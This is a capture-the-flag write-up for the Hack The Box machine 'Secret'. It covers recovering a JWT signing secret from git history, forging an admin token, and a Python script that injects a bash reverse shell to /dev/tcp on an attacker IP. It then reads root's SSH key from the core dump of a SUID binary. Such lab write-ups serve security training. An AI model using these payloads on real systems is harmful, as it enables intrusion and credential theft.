

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.120 secret.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DUMB Docs
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* webserver on port 80 is running a express javascript webapp and source code of this app available in the home page.

  

* both port are running same webapp and as of now don't see any difference them.

# Foothold

## Webapp source code review

Download the source code and audit them. The esist way to audit node application is, Go to app directory and run `npm audit` and it will show if there is any out-dated or vulnerable dependency used in the application.



And right of the bat we found a high/critical Severity vulnerability in dependency that is used in this application. But none of these vulnerability are useful in this scenario. Moving on and reviewing source code.

Ater testing and reviewing source code 

* Application have API based Authentication.
* This Authentication system uses jwt token.
  
  

* in the zip file, there is a `.env` that contains that jwt token secret key.

  

* Then there is a `.git` direcotry in the zip file
  
  

  * Viewing the git log found there are some commits related to `.evn` file

    

reverting git commit back to 2 commits and got the secret token from `.env` file.



## Command injection

* **From Source code**
  * `./local-web/routes/private.js` have route `/log` which is vulnerable for command injection.

    

And finally, This lead to commnad injection by creating jwt token with admin's username from `/log` endpoint.




Reverse shell script
```py
import json
import jwt
import re
import requests as r
import sys

ip = '10.10.14.42'
port = 4141
secret = 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'
token = {"auth-token": jwt.encode({"name": "theadmin", "email": "admin@admin.com"},
                                         secret,
                                         algorithm="HS256")}
injection = f'%2Fbin%2Fbash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F{ip}%2F{port}+0%3E%261%22' #sys.argv[1]
rspn = r.get(f'http://10.10.11.120:3000/api/logs?file=command;{injection}', headers=token)

try:
    data = json.loads(rspn.text)
    print(data["signal"])
except json.JSONDecodeError:
    print(rspn.text)
except TypeError as e:
    print(re.findall(r'"(.*?)"', rspn.text)[0].encode('utf-8').decode('unicode_escape'))
```

# Privesc

## Core dump

There is a suid bianry in `/opt` directory. This binary counts the words/directory from given path. binary source code also available in the same direcotry in `code.c` file.




Read thorugh the code, in the main function after reading the file, function is enabling coredump with "PR_SET_DUMPABLE".




### coredump in suid

* above binary is a suid binary and Linux disables core dumps for setuid programs.
* The memory of a setuid program might (is likely to, even) contain confidential data.
* For enabling coredump in suid bianry
  * Enable setuid core dumps in general by setting the `fs.suid_dumpable` sysctl to `2`, e.g. with `echo 2 >/proc/sys/fs/suid_dumpable`. (Note: `2`, not `1`; `1` means “I'm debugging the system as a whole and want to remove all security”.)
  * Call **`prctl(PR_SET_DUMPABLE, 1)`** from the program.
* And final, To dump core memory in a file the "core file size" limit is set to more than 0 or unlimited. this can be set with `ulimit` command with `-c` flag.

**;[source of this information](https://unix.stackexchange.com/questions/15531/how-come-no-core-dump-is-create-when-an-application-has-suid-set)**

Already see that binary is using `PR_SET_DUMPABLE` to enable coredump and other 2 this are also set as they should be.
```bash
cat /proc/sys/fs/suid_dumpable
ulimit -c
```




### coredump misconfigure

Now to next thing is, this binary is is dropping user privileges before setting coredump.



* If bianry is owned by root but dropped his privilege while executing before calling coredump. This cause dumped file owned by that low privilege user.

I done the 2 tests in my test environment and check if core file dropped the permissions if binary dropped his permission before enabling coredump.




### force coredump

Next this is to force bianry to dumped core memory.

In normal case, if we `kill` or `ctrl+c` bianry, it might exit quietly without any error and there for no core mmmory to dump.

But in the `kill` command there are some signals that caused a bianry to drop core momory. check [signal man page](https://man7.org/linux/man-pages/man7/signal.7.html) ;**[source of this information](https://stackoverflow.com/questions/979141/how-to-programmatically-cause-a-core-dump-in-c-c)**



These signals with default action 'core' cause a process to terminate and produce a core dump file.

and in the above test i used `SIGSEGV` Invalid memory reference signal to cause coredump.

### coredump with apport

Now the core file can be configured, how it will be stored with `/proc/sys/kernel/core_pattern`

in the target box, dump file configure with apport
```bash
(remote) dasith@secret:/var/crash$ cat /proc/sys/kernel/core_pattern
|/usr/share/apport/apport %p %s %c %d %P %E
```

from apport wiki: https://wiki.ubuntu.com/Apport

apport is a ubuntu specific utility and it intercepts Program crashes, collects debugging information about the crash and the operating system environment, and sends it to bug trackers in a standardized form.

now saving crash file with apport:

If any process in the system dies due to a signal that is commonly referred to as a 'crash' (segmentation violation, bus error, floating point exception, etc.), or e.g. a packaged Python application raises an uncaught exception, the apport backend is automatically invoked. It produces an initial crash report in a file in `/var/crash/` (the file name is composed from the name of the crashed executable and the user id).

That means in target box we can find the coredump in `/var/crash/` in the bianry's crash report.

but how this is helpful in privilege escalation.

### Reading coredump

There are multiple options for read/debug coredump.

for normal core file we can use `gdb`
```bash
gdb ./executable core
(gdb) bt #view the backtrace
```

for apport crash report, use `apport-unpack` unility.

```bash
apport-unpack /var/crash/binary.crash unpackPath
cd unpackpath/
gdb ./executable CoreDump
(gdb) bt #view the backtrace
```

we can directly read the coredump file with `objdump`
```bash
objdump -s core
```

or open with `strings` command to display readable text from the core file.

### coredump knows your secret

here is the thing with coredump file that This file contains the memory, register values, and the call stack of an application at the point of crashing.

and our target bianry have root level access in the filesystem because of the suid ability and binary have `filecount` function which reads the file we specified.



and if we cause coredump before bianry exit. coredump must have the content of that file in the crash logs.

* box have tmux and all required tools, run tmux to get multiple terminals in the same sessions.



And doing `strings` on CoreDump file get the content of the ssh private key file




Moving on the same direction, There is a RCE with this flaw.

* https://schulz.dk/2021/10/25/using-core-dumps-for-linux-privacy-escalation/
* https://alephsecurity.com/2021/10/20/sudump/